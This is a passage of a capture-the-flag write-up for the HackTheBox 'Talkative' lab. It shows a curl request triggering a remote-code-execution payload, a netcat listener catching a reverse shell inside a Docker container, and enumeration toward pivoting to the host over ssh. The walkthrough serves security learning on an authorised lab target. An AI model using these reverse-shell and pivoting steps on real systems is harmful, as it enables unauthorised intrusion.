 - **Trigger the RCE payload:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|17:49:41(HKT)]
└> curl http://talkative.htb/

```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|17:46:01(HKT)]
└> nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 43822
[...]
www-data@0de8022816f3:/var/www/talkative.htb/bolt/public$ whoami; hostname
www-data
0de8022816f3
www-data@0de8022816f3:/var/www/talkative.htb/bolt/public$ ls -lah /.dockerenv
-rwxr-xr-x 1 root root 0 Aug 10 06:58 /.dockerenv
```

I'm `www-data` in a Docker container!

### `172.17.0.10` Docker `www-data` to host saul

Now we're in a different Docker container that we previously in the Jamovi one. (You can tell that because of different hostname.)

**Since this is a Docker container, all binaries are very limited:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ip a
bash: ip: command not found
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ifconfig
bash: ifconfig: command not found
```

**Find current Docker container IP address:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ hostname -i
172.17.0.10
```

- Current Docker container IP address: `172.17.0.10`

Typically, Docker container IP range is `172.17.0.0/16`, and the host is in `172.17.0.1`.

So, maybe we need to **pivot to the host machine**?

**I then enumerated what binaries I can use, and I found the `ssh` binary:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ls -lah /usr/bin
[...]
-rwxr-xr-x 1 root root   779K Mar 13  2021 ssh
-rwxr-xr-x 1 root root   367K Mar 13  2021 ssh-add
-rwxr-sr-x 1 root ssh    347K Mar 13  2021 ssh-agent
-rwxr-xr-x 1 root root   1.5K Mar 13  2021 ssh-argv0
-rwxr-xr-x 1 root root    11K Mar 13  2021 ssh-copy-id
-rwxr-xr-x 1 root root   475K Mar 13  2021 ssh-keygen
-rwxr-xr-x 1 root root   459K Mar 13  2021 ssh-keyscan
[...]
```

